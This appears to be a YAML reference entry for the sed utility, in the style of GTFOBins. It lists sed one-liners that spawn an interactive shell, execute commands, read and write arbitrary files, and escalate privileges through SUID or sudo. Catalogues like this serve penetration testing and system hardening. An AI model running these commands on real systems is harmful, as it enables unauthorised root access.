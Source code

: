 ```yaml
---
functions:
  execute-interactive:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n "1e bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
  execute-non-interactive:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/DATA/w $LFILE" /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo-enabled:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
---
```

